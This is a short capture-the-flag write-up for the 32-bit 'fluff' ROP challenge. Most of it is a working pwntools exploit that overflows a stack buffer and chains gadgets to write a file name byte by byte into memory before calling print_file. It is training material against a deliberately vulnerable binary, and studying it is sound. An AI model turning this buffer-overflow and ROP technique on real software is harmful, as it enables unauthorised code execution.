


just like [fluff](../x86_64/fluff.md), we have some peculiar gadgets to manipulate the binary's data, even though its not exactly the same as last time

still, the objective remain the same: write ./flag.txt one byte at a time to somewhere in the binary to print the flag via print_file@plt

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fluff32")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+172
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    pop_ecx_bswap_ecx=0x08048558
    pext_edx_ebx_eax=0x804854a
    xchgIecxI_dl=0x8048555
    mov_eax_deadbeef=0x0804854f
    pop_ebx=0x08048399
    dest=0x00a80408
    delta=0x1000000

    flag=[0x4E, 0x4F, 0xC6, 0xCC, 0xC1, 0xC7, 0x4E, 0xE4, 0xE8, 0xE4]

    buf=0x2c*b"A"

    payload=flat(
        buf,

        mov_eax_deadbeef,

        pop_ebx,
        flag[0],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest,
        xchgIecxI_dl,

        pop_ebx,
        flag[1],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta,
        xchgIecxI_dl,

        pop_ebx,
        flag[2],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*2,
        xchgIecxI_dl,

        pop_ebx,
        flag[3],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*3,
        xchgIecxI_dl,

        pop_ebx,
        flag[4],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*4,
        xchgIecxI_dl,

        pop_ebx,
        flag[5],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*5,
        xchgIecxI_dl,

        exe.plt["pwnme"]
    )

    r.recvuntil("> ")
    r.send(payload)

    payload=flat(
        buf,
        mov_eax_deadbeef,

        pop_ebx,
        flag[6],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*6,
        xchgIecxI_dl,

        pop_ebx,
        flag[7],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*7,
        xchgIecxI_dl,

        pop_ebx,
        flag[8],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*8,
        xchgIecxI_dl,

        pop_ebx,
        flag[9],
        pext_edx_ebx_eax,
        pop_ecx_bswap_ecx,
        dest+delta*9,
        xchgIecxI_dl,

        exe.plt["print_file"],
        0,
        0x804a800
    )

    r.recvuntil("> ")
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```